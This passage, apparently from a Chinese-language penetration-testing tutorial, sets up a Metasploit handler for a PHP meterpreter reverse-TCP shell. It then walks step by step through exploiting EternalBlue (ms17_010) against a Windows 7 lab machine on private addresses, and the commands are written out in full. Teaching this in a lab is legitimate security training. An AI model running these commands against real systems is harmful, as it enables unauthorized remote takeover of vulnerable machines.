 

#### 5.6.2.3.**监听payload文件**

msfconsole

use exploit/multi/handler

set PAYLOAD php/meterpreter_reverse_tcp

set LHOST 192.168.10.20

set LPORT  4444

set ExitOnSession false

exploit -j -z

 

#### 5.6.2.4.**运行payload文件**

这里运行payload文件可以在浏览器中访问shell.php文件。

 

#### 5.6.2.5.**上线payload**

这里通过sessions命令可以看到机器上线了。

 

#### 5.6.2.6.**利用payload**

这里可以使用sessions -i 2进行利用，这里的2是序号，可以通过上线的payload的序号进行利用。

这里需要注意哦，看上面的图片，我的序号已经变成2了。

 

 

# 6.**Msfconsole整体攻击流程**

为了能够体现出整体的流程，这里选择永恒之蓝进行测试。

## 6.1.**环境准备**

Windows7系统需要关闭防火墙，若开启防火墙可能会存在问题。

攻击机：192.168.10.20

受害者w7：192.168.10.40

## 6.2.**启动Metasploit**

命令：msfconsole

 

## 6.3.**搜索永恒之蓝**

永恒之蓝ms17_010，其实这里可以直接搜索ms17，即可出现。

命令：search ms17_010

 

## 6.4.**选择扫描模块**

这里可以选择，先进行扫描，确定是否存在漏洞，然后在进行执行。auxiliary/scanner/smb/smb_ms17_010就是扫描模块。

命令：use auxiliary/scanner/smb/smb_ms17_010

 

## 6.5.**设置参数**

这里需要设置一个IP地址参数。可以使用show options来查看哪些参数是必设的，哪些是可选设置的，从下图可以看到我们需要设置一个IP地址。

 

命令：set rhosts 192.168.10.40

在设置完后，可以看到必选参数我们填入进入了，然后通过show options来查看我们来设置的信息了。

 

## 6.6.**执行扫描**

命令：run

 

## 6.7.**选择攻击模块**

当知道可能造成攻击后，那么就可以选在攻击模块进行攻击了。

命令：use exploit/windows/smb/ms17_010_eternalblue 

 

## 6.8.**设置参数**

设置参数是一样的，都需要设置IP地址。

命令：set rhosts 192.168.10.40

 

## 6.9.**执行攻击**

通过执行命令，可以看到我们成功攻入进去，至此我们的完整攻击也结束了，剩下的就是后续对系统的利用了。

命令：run

 

# 7.**后渗透模块使用**

这里后面将单独出一篇关于后渗透模块的使用，简单来说就是当将生成的payload植入后或者漏洞利用成功后，获取到的shell权限，然后对这个shell权限进行利用。